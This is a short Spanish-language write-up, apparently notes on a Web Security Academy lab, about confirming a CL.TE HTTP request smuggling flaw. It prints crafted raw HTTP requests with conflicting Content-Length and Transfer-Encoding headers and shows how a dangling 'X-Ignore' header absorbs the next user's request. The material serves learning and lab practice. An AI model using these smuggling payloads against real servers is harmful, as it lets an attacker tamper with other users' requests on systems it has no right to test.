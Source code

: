 ```yaml
---
layout: default
title: 04 - HTTP request smuggling, confirming a CL.TE vulnerability via differential responses
---
```

```HTTP
POST / HTTP/1.1\r\n
Host: 0a97002803ea466780098fc60048004f.web-security-academy.net\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 29\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
GET /notFound HTTP/1.1\r\n
```

Así solo no va a funcionar , ¿Por qué?
Porque la petición buena que hagamos quedará tal que así:

```HTTP
GET /notFound HTTP/1.1\r\n
GET / HTTP/1.1\r\n
Host: ...
```

Y claro , tirará 400, la cosa es hacerlo así :

```HTTP
POST / HTTP/1.1\r\n
Host: 0a97002803ea466780098fc60048004f.web-security-academy.net\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 29\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
GET /notFound HTTP/1.1\r\n
X-Ignore: X
```

Porque entonces quedará así:

```HTTP
GET /notFound HTTP/1.1\r\n
X-Ignore: XGET / HTTP/1.1\r\n
Host: ...
```
